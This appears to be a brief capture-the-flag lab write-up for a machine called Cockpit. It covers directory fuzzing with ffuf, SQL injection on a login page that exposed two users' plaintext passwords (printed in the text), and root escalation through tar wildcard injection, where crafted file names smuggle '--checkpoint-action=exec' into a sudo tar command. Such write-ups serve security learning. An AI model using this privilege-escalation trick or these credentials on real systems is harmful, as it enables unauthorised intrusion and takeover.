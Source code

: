 # Cockpit \[Inter]

## Report



### Hint

* Did not fuzz using file extension and did not bother checking the stack on wappalyzer either

## Cheatsheet

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.167.10/FUZZ -fc 301 -e .php
echo -e '#!/bin/bash\n/bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
sudo /usr/bin/tar -czvf /tmp/backup.tar.gz *
```

## Loot

### Enumeration

192.168.167.10

#### 80

Fuzzing with PHP extension reveals a login page, apart from that nothing

#### 9090

Cockpit is an interactive Linux server admin interface.\
Project website\
Version 215.

### Attack Vectors

'SQLi' on login interface on port 80 reveals creds for two users, james and cameron

### PrivEsc

Wildcard abuse on tar binary

### Creds

james:canttouchhhthiss@455152\
cameron:thisscanttbetouchedd@455152

### Proof

Check your tech stack properly foo

